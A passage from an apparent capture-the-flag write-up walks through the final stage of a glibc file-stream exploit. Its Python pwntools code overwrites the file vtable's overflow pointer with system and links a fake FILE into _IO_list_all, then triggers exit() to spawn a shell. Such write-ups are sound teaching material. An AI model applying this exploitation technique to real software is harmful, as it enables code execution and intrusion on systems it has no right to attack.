 Notice that our fake `FILE` has to point to the `__GI__IO_file_jumps` vtable, in order for it to be valid.

The fake `FILE` is placed on the chunk, now wee need to perform our two overwrites:

```python
# __GI__IO_file_jumps' __overflow() ptr overwrite
# __GI__IO_file_jumps+0x18 -> system
# _IO_list_all -> chunk w/ fake FILE
writes = [(__GI__IO_file_jumps+0x18, system),
          (_IO_list_all, chunk_addr)]

# Offsets relative to chunk addr
writes = [(key-chunk_addr, val) for key, val in writes]

# Edit twice - GLibc overwrites
for w in writes:
  r.sendlineafter(b'>> ', b'4')
  r.sendlineafter(b': ', str(w[0]//8).encode()) # addr
  r.sendlineafter(b'): ', val2double(w[1]))  # overwrite value
```

The exploit is basically complete at this point; all there is left to do is call `exit()` to trigger our overwritten `__overflow()` function pointer. We will use delete() since that option just exited.

```python
# delete to exit and trigger exploit
# system("/bin/sh") call
r.sendlineafter(b'>> ', b'3')
r.recv() # cleanup
print('** SHELL **')
r.interactive()
```

## Solution

The exploit runs!

<img src="assets/flag.png" align="center" />